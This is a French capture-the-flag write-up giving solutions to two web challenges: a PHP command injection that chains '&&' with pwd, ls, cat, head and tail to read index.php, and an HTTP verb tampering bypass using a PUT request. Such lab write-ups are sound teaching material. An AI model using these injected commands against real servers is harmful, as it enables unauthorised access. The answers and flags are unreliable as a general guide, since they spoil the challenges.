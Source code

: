 
## 6. PHP - Injection de commande

L'objectif est d'exploiter une faille permettant d'exécuter des commandes système via un formulaire PHP.

### Étapes :
1. Trouvez un champ de saisie sur la page.
2. Injectez une commande avec `&&`.

Exemple :

```bash
127.0.0.1 && pwd /challenge/web-serveur/ch54
```

Si cela fonctionne, testez les commandes suivantes :

```bash
127.0.0.1 && ls index.php
```

Puis :

```bash
127.0.0.1 && cat index.php
```

Si `cat` est bloqué, utilisez :

```bash
127.0.0.1 && head index.php
127.0.0.1 && tail index.php
```

Résultat final :

```
$flag = "S3rv1ce...S3cure";
```

---

## 13. HTTP - Verb tampering

L'objectif est de contourner les restrictions d'accès en manipulant les méthodes HTTP.

### Solution :

1. Utilisez une extension Firefox comme **Open HTTP requester**.
2. Envoyez une requête PUT vers :

```
http://challenge01.root-me.org/web-serveur/ch8/
```

Flag obtenu : 

---
